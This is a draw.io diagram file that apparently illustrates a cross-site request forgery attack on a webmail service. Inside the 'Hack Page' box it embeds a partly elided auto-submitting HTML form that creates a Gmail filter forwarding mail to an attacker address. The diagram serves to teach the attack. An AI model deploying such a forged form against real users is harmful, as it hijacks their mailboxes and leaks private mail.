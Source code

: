 <mxfile version="12.2.4"><diagram id="hNjtACdktexzkdKP1uJP"><mxGraphModel dx="798" dy="630" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0"><root><mxCell id="0"/><mxCell id="1" parent="0"/><mxCell id="5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="2" target="3"><mxGeometry relative="1" as="geometry"><mxPoint x="250" y="220" as="targetPoint"/></mxGeometry></mxCell><mxCell id="2" value="Server" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#fff2cc;strokeColor=#d6b656;" vertex="1" parent="1"><mxGeometry x="190" y="80" width="120" height="60" as="geometry"/></mxCell><mxCell id="10" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="3" target="7"><mxGeometry relative="1" as="geometry"><mxPoint x="400" y="330" as="targetPoint"/></mxGeometry></mxCell><mxCell id="3" value="mail page" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#d5e8d4;strokeColor=#82b366;" vertex="1" parent="1"><mxGeometry x="135" y="240" width="230" height="180" as="geometry"/></mxCell><mxCell id="6" value="cookie" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="210" y="180" width="40" height="20" as="geometry"/></mxCell><mxCell id="7" value="" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#f8cecc;strokeColor=#b85450;" vertex="1" parent="1"><mxGeometry x="470" y="235" width="230" height="190" as="geometry"/></mxCell><mxCell id="8" value="&lt;h1&gt;Hack Page&lt;/h1&gt;&lt;p&gt;.&lt;span style=&quot;background-color: rgb(35 , 35 , 35) ; color: rgb(230 , 225 , 220) ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap&quot;&gt;&amp;lt;form method=&lt;/span&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap ; box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box&quot;&gt;&quot;&lt;/span&gt;&lt;span class=&quot;hljs-keyword&quot; style=&quot;box-sizing: border-box ; font-weight: 700 ; color: rgb(194 , 98 , 48)&quot;&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&lt;span class=&quot;hljs-keyword&quot; style=&quot;box-sizing: border-box ; color: rgb(194 , 98 , 48)&quot;&gt;POST&lt;/span&gt;&lt;/span&gt;&lt;/span&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box&quot;&gt;&quot;&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;background-color: rgb(35 , 35 , 35) ; color: rgb(230 , 225 , 220) ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap&quot;&gt; action=&lt;/span&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap ; box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf&quot;&lt;/span&gt;&lt;span style=&quot;background-color: rgb(35 , 35 , 35) ; color: rgb(230 , 225 , 220) ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap&quot;&gt; enctype=&lt;/span&gt;&lt;span class=&quot;hljs-string&quot; style=&quot;font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap ; box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;multipart/form-data&quot;&lt;/span&gt;&lt;span style=&quot;background-color: rgb(35 , 35 , 35) ; color: rgb(230 , 225 , 220) ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; white-space: pre-wrap&quot;&gt;&amp;gt; &lt;/span&gt;&lt;/p&gt;&lt;pre style=&quot;box-sizing: border-box ; overflow: auto ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: 10px ; padding: 0px ; margin-top: 0px ; margin-bottom: 1rem ; line-height: 1.429 ; word-break: break-all ; overflow-wrap: break-word ; color: rgb(51 , 51 , 51) ; background: rgb(238 , 238 , 238) ; border: 1px solid rgb(238 , 238 , 238) ; border-radius: 4px&quot;&gt;&lt;code class=&quot;hljs accesslog&quot; style=&quot;box-sizing: border-box ; font-family: &amp;#34;courier&amp;#34; , &amp;#34;courier new&amp;#34; , monospace ; font-size: inherit ; color: rgb(230 , 225 , 220) ; background: rgb(35 , 35 , 35) ; border-radius: 0px ; padding: 0.5em ; margin: 0px ; white-space: pre-wrap ; display: block ; overflow-x: auto&quot;&gt;    &amp;lt;input type=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;hidden&quot;&lt;/span&gt; name=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;cf2_emc&quot;&lt;/span&gt; value=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;true&quot;&lt;/span&gt;/&amp;gt; &lt;br/&gt;    &amp;lt;input type=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;hidden&quot;&lt;/span&gt; name=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;cf2_email&quot;&lt;/span&gt; value=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;hacker@hakermail.com&quot;&lt;/span&gt;/&amp;gt; &lt;br/&gt;    .....&lt;br/&gt;    &amp;lt;input type=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;hidden&quot;&lt;/span&gt; name=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;irf&quot;&lt;/span&gt; value=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;on&quot;&lt;/span&gt;/&amp;gt; &lt;br/&gt;    &amp;lt;input type=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;hidden&quot;&lt;/span&gt; name=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;nvp_bu_cftb&quot;&lt;/span&gt; value=&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;&quot;Create Filter&quot;&lt;/span&gt;/&amp;gt; &lt;br/&gt;&amp;lt;/form&amp;gt; &lt;br/&gt;&amp;lt;script&amp;gt; &lt;br/&gt;    document.forms&lt;span class=&quot;hljs-string&quot; style=&quot;box-sizing: border-box ; color: rgb(165 , 194 , 97)&quot;&gt;[0]&lt;/span&gt;.submit();&lt;br/&gt;&amp;lt;/script&amp;gt;&lt;br/&gt;&lt;/code&gt;&lt;/pre&gt;&lt;blockquote class=&quot;with-icon&quot; style=&quot;box-sizing: border-box ; padding: 1em 0px 0.2em 2.8em ; margin: 1em 0px 1em 1em ; font-size: 1.5rem ; border-left: 3px solid rgb(255 , 196 , 2) ; position: relative ; color: rgb(51 , 51 , 51) ; font-family: &amp;#34;pingfang sc&amp;#34; , &amp;#34;lantinghei sc&amp;#34; , &amp;#34;microsoft yahei&amp;#34; , &amp;#34;hiragino sans gb&amp;#34; , &amp;#34;microsoft sans serif&amp;#34; , &amp;#34;wenquanyi micro hei&amp;#34; , sans-serif ; background-color: rgb(253 , 253 , 253)&quot;&gt;&lt;/blockquote&gt;" style="text;html=1;strokeColor=none;fillColor=none;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1"><mxGeometry x="490" y="255" width="190" height="150" as="geometry"/></mxCell><mxCell id="11" value="click with&lt;br&gt;cookie" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="390" y="300" width="63" height="20" as="geometry"/></mxCell><mxCell id="12" value="" style="curved=1;endArrow=classic;html=1;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="7" target="2"><mxGeometry width="50" height="50" relative="1" as="geometry"><mxPoint x="470" y="160" as="sourcePoint"/><mxPoint x="520" y="110" as="targetPoint"/><Array as="points"><mxPoint x="540" y="160"/><mxPoint x="470" y="110"/></Array></mxGeometry></mxCell><mxCell id="13" value="bad request with cookie" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1"><mxGeometry x="500" y="110" width="80" height="10" as="geometry"/></mxCell></root></mxGraphModel></diagram></mxfile>